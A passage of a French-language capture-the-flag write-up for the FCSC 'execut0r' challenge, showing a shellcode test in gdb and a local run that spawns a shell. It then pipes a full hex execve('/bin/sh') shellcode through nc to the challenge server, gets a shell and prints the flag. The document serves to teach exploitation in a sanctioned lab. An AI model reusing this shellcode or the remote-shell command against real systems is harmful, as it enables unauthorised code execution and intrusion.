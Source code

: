 ![Résultat de l'exécution du shellcode](img/gdb_execve.png)

Les arguments pour `execve` correspondent bien.  
On essaie notre shellcode en-dehors de gdb :
```
$ ./execut0r shellcode
sh-5.1$ echo 'pwned'
pwned
sh-5.1$ exit
exit
```

Et on récupère le flag (la chaine en hexadécimal est renvoyée par `disass.py`):
```sh
$ (echo '488d7c2445c6471975c6471af64883c733c6040790fec03c33909048b82f62696e2f7' \
    '36800504889e753574889e6b83b0000000000003bb8e689485753e78948500068732f6e69' \
    '622fb8489090333cc0fe900704c633c78348f61a47c6751947c645247c8d48' | tr -d ' '; cat -) \
  | nc challenges.france-cybersecurity-challenge.fr 2054
Enter your shellcode (hex, at most 1024 bytes):
id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
ls -la
total 36
drwxr-xr-x 1 root root  4096 Apr 29 08:07 .
drwxr-xr-x 1 root root  4096 Apr 29 08:07 ..
-r-x------ 1 ctf  ctf  16816 Apr 29 08:07 execut0r
-r-------- 1 ctf  ctf     71 Apr 29 08:07 flag.txt
-r-x------ 1 ctf  ctf   1154 Apr 29 08:07 run.py
cat flag.txt
FCSC{662c7ce1f85b5bb4a874a9ecddae4ea9b24d5ef0ce72c28df162ee8311b19ec3}
exit
```
